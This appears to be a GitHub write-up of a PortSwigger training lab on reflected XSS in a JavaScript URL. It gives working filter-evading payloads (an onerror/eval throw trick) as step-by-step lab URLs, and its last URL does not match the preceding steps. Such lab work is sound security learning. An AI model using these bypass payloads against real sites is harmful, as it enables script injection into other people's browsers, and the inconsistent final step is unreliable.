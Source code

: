 # Lab: Reflected XSS in a JavaScript URL with some characters blocked

 This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message. 

# Step 1 Find a potential attack vector

I believe I have found a potential location for a reflected xss attack with the back to blog link:

![image](https://user-images.githubusercontent.com/83407557/211170280-364cc2c1-ecc6-4f3a-b50c-dc9ae0adce5f.png)

```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d4'}).finally(_ => window.location = '/')">Back to Blog</a>
```

Since I can control the URL of that blog post request what happens if I add a payload like the following:

```html
{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}
```

The url for a blog post is:
https://0a1600cb03f15424c0704a5900550071.web-security-academy.net/post?postId=1

First I need to add another parameter with an `&`

https://0a1600cb03f15424c0704a5900550071.web-security-academy.net/post?postId=1&

Then I need to close the curly bracket `}`

https://0a1600cb03f15424c0704a5900550071.web-security-academy.net/post?postId=1&}

Then add the payload

https://0a1600cb03f15424c0704a5900550071.web-security-academy.net/post?postId=1&},{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}

And then close the final curly bracket

https://0a1600cb03f15424c0704a5900550071.web-security-academy.net/post?postId=1&%27}throw onerror=alert,'some string',123,'haha'{%27


read the walkthrough
